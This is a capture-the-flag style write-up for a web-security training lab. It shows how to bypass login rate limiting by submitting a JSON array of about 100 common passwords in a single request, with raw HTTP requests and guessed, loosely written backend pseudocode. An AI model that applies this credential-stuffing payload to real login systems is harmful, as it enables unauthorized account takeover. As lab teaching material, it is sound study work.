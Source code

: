 # [Lab 6: Broken brute-force protection, multiple credentials per request](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)

## Description

This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

-   Victim's username: `carlos`
-   [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Solution

The title of the lab indicates that it will be necessary to submit multiple credentials per request to brute force `carlos`'s password. Browse to the login form and submit some incorrect credentials. Intercept the request for future use.

```http
POST /login HTTP/1.1
Host: acd11f361e5ed0ff81509b63009c001c.web-security-academy.net
Cookie: session=f7y2Uhnpolkk7kp1AXoGy7xodwQ4t77Q
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acd11f361e5ed0ff81509b63009c001c.web-security-academy.net/login
Content-Type: text/plain;charset=UTF-8
Origin: https://acd11f361e5ed0ff81509b63009c001c.web-security-academy.net
Content-Length: 44
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close

{"username":"tgihf","password":"pass","":""}
```

The body is a JSON object with keys `username`, `password`, and a empty key that is mapped to an empty string. The empty key is highly unusual. The response of an incorrect login contains the string `Invalid username or password.`.

![](images/Pasted%20image%2020210809120622.png)

Use BurpSuite Intruder to attempt 20 logins as `carlos` to determine if any type of brute force protection mechanism is in play.

Indeed there is some form of brute force protection at play. During the first three incorrect login attempts, the response length was 3288 bytes and the response contained the string `Invalid username or password.`, as noted previously. From the fourth login attempt onward, the response length was 3340 bytes and the response contained the string `You have made too many incorrect login attempts. Please try again in 1 minute(s).`

As hinted by the title of this challenge, it appears the way around the brute force protection mechanism is to submit multiple credentials per request. But how?

The backend server code presumably looks something like the following:

```python
# login.py
credentials: dict = json.loads(request.body)
username: str = credentials['username']
md5_hash: str = hashlib.md5(credentials['password'])
sql_query: SQLPreparedStatement = sql.prepare("SELECT username FROM users WHERE username = ? AND password = ?", 0=username, 1=md5_hash)
rows = db.execute(sql_query)
if (rows > 0):
	authenticate_user()
```

This code doesn't seem to be vulnerable to anything. However, the prompt indicates that there is a logic flaw. Perhaps the backend server code actually looks something like the following:

```python
# login2.py
credentials: dict = json.loads(request.body)
username: str = credentials['username']
for password in passwords:
	md5_hash: str = hashlib.md5(credentials['password'])
	sql_query: SQLPreparedStatement = sql.prepare("SELECT username FROM users WHERE username = ? AND password = ?", 0=username, 1=md5_hash)
	rows = db.execute(sql_query)
	if (rows > 0):
		authenticate_user()
```

It is highly unlikely that anyone in the real world would write an authentication function this way, as users are generally only mapped to a single password. However, following this logic, submit a JSON payload that has a list of all the candidate passwords as the value of the `password` key.

```http
POST /login HTTP/1.1
Host: acde1f981f43e9bf80cc777a00f900d5.web-security-academy.net
Cookie: session=f7y2Uhnpolkk7kp1AXoGy7xodwQ4t77Q
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acde1f981f43e9bf80cc777a00f900d5.web-security-academy.net/login
Content-Type: text/plain;charset=UTF-8
Origin: https://acde1f981f43e9bf80cc777a00f900d5.web-security-academy.net
Content-Length: 1595
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close

{
    "username": "carlos",
    "password": [
        "123456",
        "password",
        "12345678",
        "qwerty",
        "123456789",
        "12345",
        "1234",
        "111111",
        "1234567",
        "dragon",
        "123123",
        "baseball",
        "abc123",
        "football",
        "monkey",
        "letmein",
        "shadow",
        "master",
        "666666",
        "qwertyuiop",
        "123321",
        "mustang",
        "1234567890",
        "michael",
        "654321",
        "superman",
        "1qaz2wsx",
        "7777777",
        "121212",
        "000000",
        "qazwsx",
        "123qwe",
        "killer",
        "trustno1",
        "jordan",
        "jennifer",
        "zxcvbnm",
        "asdfgh",
        "hunter",
        "buster",
        "soccer",
        "harley",
        "batman",
        "andrew",
        "tigger",
        "sunshine",
        "iloveyou",
        "2000",
        "charlie",
        "robert",
        "thomas",
        "hockey",
        "ranger",
        "daniel",
        "starwars",
        "klaster",
        "112233",
        "george",
        "computer",
        "michelle",
        "jessica",
        "pepper",
        "1111",
        "zxcvbn",
        "555555",
        "11111111",
        "131313",
        "freedom",
        "777777",
        "pass",
        "maggie",
        "159753",
        "aaaaaa",
        "ginger",
        "princess",
        "joshua",
        "cheese",
        "amanda",
        "summer",
        "love",
        "ashley",
        "nicole",
        "chelsea",
        "biteme",
        "matthew",
        "access",
        "yankees",
        "987654321",
        "dallas",
        "austin",
        "thunder",
        "taylor",
        "matrix",
        "mobilemail",
        "mom",
        "monitor",
        "monitoring",
        "montana",
        "moon",
        "moscow"
    ],
    "": ""
}
```

The response to this request is a 302 offering a new cookie. Take the cookie and follow the redirect to see that the bypass worked and authentication as `carlos` was successful.
